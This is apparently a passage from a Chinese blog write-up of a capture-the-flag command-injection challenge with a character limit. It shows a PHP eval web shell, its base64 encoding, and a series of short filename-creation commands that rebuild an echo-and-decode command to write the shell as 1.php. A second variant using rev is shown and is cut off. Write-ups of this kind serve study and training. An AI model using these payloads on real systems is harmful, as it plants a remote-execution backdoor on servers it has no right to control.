 

![image-20240907052348379](https://img-blog.csdnimg.cn/img_convert/177a297661cf6ee557ac127bcabda888.png)

讲清楚原理后开始做题。

pwd查看当前可写入的目录



![image-20240907083223831](https://img-blog.csdnimg.cn/img_convert/6b794580e537d8a8cfafde2f449bd9a8.png)

```has-numbering
#写入语句
<?php eval($_GET[1]);

#base64编码后
PD9waHAgZXZhbCgkX0dFVFsxXSk7

#需要被执行的语句：
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php

```

依次输入：

```has-numbering
>hp
>1.p\\
>d\>\\
>\ -\\
>e64\\
>bas\\
>7\|\\
>XSk\\
>Fsx\\
>dFV\\
>kX0\\
>bCg\\
>XZh\\
>AgZ\\
>waH\\
>PD9\\
>o\ \\
>ech\\
ls -t>0
nl 0
sh 0

```

![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCodeMoreBlack.png)

或者：

```has-numbering
>dir
>f\>
>ht-
>sl
*>v
>rev
*v>0
>a
>hp
>p\\
>1.\\
>\>\\
>-d\\
```